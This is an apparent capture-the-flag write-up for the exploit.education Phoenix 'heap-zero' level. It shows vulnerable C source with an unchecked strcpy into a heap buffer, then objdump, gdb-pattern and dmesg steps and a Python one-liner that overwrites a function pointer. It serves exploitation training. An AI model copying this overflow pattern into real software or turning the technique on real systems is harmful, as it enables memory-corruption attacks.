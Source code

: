 # HEAP ZERO


## SOURCE CODE

```c
/*
 * phoenix/heap-zero, by https://exploit.education
 *
 * Can you hijack flow control, and execute the winner function?
 *
 * Why do C programmers make good Buddhists?
 * Because they're not object orientated.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```


## STRATEGY
The goal is overwrite the *`fp`* pointer that points to *`nowinner`* function with the address of *`winner`*, which will be called later. In a similar way to buffer overflow, we can create an overflow in the segment of the heap where our dynamically allocated variables reside. To do that we need to get the address of *`winner`* and calculate how much memory write before encounter *`fp`* pointer

## EXPLOIT
1. With objdump we can get winner address:
```shell
user@phoenix-amd64:/opt/phoenix/i486$ objdump -d heap-zero | grep winner
08048835 <winner>:
0804884e <nowinner>:
```
address: 08048835

2. With gdb (*`pattern create`* - *`pattern offset`*) or a site like [THIS](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can create segmentation fault. Inspecting the segfault we can get the ip offset.
```shell
user@phoenix-amd64:/opt/phoenix/i486$ ./heap-zero `python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"'`
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x41346341
Segmentation fault
user@phoenix-amd64:/opt/phoenix/i486$ sudo dmesg |tail -n1
[ 7096.776476] heap-zero[382]: segfault at 41346341 ip 0000000041346341 sp 00000000ffffd55c error 14
```
Number of bytes to fill before *`fp`* pointer: 72


3. Exploit:
```python
./heap-zero `python -c 'import struct; print "A"*72 + struct.pack("I",0x08048835)'`
```

